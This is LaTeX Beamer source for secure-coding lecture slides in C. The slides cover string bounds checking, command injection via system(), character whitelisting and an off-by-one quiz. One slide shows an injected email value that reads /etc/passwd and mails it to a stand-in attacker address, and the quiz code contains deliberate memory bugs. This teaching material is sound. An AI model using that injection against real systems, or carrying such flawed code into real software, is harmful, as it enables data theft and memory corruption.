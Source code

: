 \documentclass{beamer}
\newcommand{\shield}{\includegraphics[width=15pt]{shield.png} \hspace*{5pt}}
\begin{document}
\begin{frame}[fragile]{\shield Compliant solution:}
\begin{lstlisting}[style=cstyle]
char *string_data = NULL;
char a[16];
 
/* ... */
 
if (string_data == NULL) {
  /* Handle null pointer error */
}
else if (strlen(string_data) >= sizeof(a)) {
  /* Handle overlong string error */
}
else {
  strcpy(a, string_data);
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{\shield Passing strings to complex subsystems}
\begin{lstlisting}[style=cstyle]
sprintf(buffer, "/bin/mail %s < /tmp/email", addr);
system(buffer);
\end{lstlisting}
\pause
\vspace*{0.4cm}
What if:\\
bogus@addr.com; cat /etc/passwd  \textbar mail some\@badguy.net
\let\thefootnote\relax\footnote{\tiny Viega, John, \& Messier, Matt. Secure Programming Cookbook for C and C$++$: Recipes for Cryptography, Authentication, Networking, Input Validation \& More.}
\end{frame}
\begin{frame}[fragile]{\shield Compliant solution: Whitelisting}
\begin{lstlisting}[style=cstyle]
static char ok_chars[] = "abcdefghijklmnopqrstuvwxyz"
                         "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
                         "1234567890_-.@";
char user_data[] = "Bad char 1:} Bad char 2:{";
char *cp = user_data; /* cursor into string */
const char *end = user_data + strlen( user_data);
for (cp += strspn(cp, ok_chars); 
     cp != end; 
     cp += strspn(cp, ok_chars)) {
  *cp = '_';
}
\end{lstlisting}
\let\thefootnote\relax\footnote{\tiny Based on the tcp\_wrappers package written by Wietse Venema}
\end{frame}
\begin{frame}[fragile]{\shield Off-by-one errors}
Can you find all the off-by-one errors?\\[0.3cm]
\begin{lstlisting}[style=cstyle]
int main(int argc, char* argv[]) {
  char source[10];
  strcpy(source, "0123456789");
  char *dest = (char *)malloc(strlen(source));
  for (int i=1; i <= 11; i++) {
    dest[i] = source[i];
   }
  dest[i] = '\0';
  printf("dest = %s", dest);
  }

\end{lstlisting}
\let\thefootnote\relax\footnote{\tiny Robert Seacord, CERT: Safer strings in C}
\end{frame}
\end{document}

